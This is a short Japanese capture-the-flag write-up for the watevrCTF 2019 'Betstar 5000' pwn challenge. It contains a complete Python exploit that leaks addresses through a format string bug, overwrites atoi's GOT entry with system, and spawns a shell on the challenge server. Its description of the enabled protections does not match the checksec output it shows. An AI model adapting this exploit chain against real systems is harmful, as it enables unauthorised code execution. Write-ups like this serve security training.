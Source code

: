 # [pwn 194pts] Betstar 5000 - watevrCTF 2019
64ビットバイナリで、SSP以外有効です。
```
$ checksec -f betstar5000
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               3       betstar5000
```
FSBがありますが、入力できる文字数は少なく、またヒープ上のバッファが使われます。
とりあえずアドレスをリークしたあと、ヒープ上にある名前のリストの最下位バイトを書き換え、別の名前のアドレスを指すようにします。その状態で名前を変えると、別の名前のアドレスを書き換えることができるのでRELROを指し、更にその名前を変更するとRELROを書き換えられます。
```pythonm
from ptrlib import *

elf = ELF("./betstar5000")
libc = ELF("./libc-2.27.so")
#sock = Process("./betstar5000")
sock = Socket("13.53.69.114", 50000)

# set players
sock.sendline("1")
sock.sendline("%p.%p.%p")

# leak addr
sock.sendlineafter("game\n", "1")
sock.sendline("1")
sock.sendline("0")
sock.recvuntil("*: ")
r = sock.recvline().split(b'.')
libc_base = int(r[1], 16) - libc.symbol('_IO_2_1_stdin_')
proc_base = int(r[2], 16) - 0x8d5
logger.info("libc = " + hex(libc_base))
logger.info("proc = " + hex(proc_base))

# change name
sock.sendlineafter("game\n", "4")
sock.sendline("0")
sock.sendline("%{}c%7$hhn".format(0x88))

# overwrite name[0] to &name[1]
sock.sendlineafter("game\n", "1")
sock.sendline("1")
sock.sendline("0")

# add player
sock.sendlineafter("game\n", "3")
sock.sendline("taro")

# overwrite atoi to system
sock.sendlineafter("game\n", "4")
sock.sendline("0")
sock.sendline(p32(proc_base + elf.got("atoi")))
sock.sendlineafter("game\n", "4")
sock.sendline("1")
sock.sendline(p32(libc_base + libc.symbol("system")))

# get the shell!
sock.sendlineafter("game\n", "sh\x00")

sock.interactive()
```

# 感想
簡単ですね。
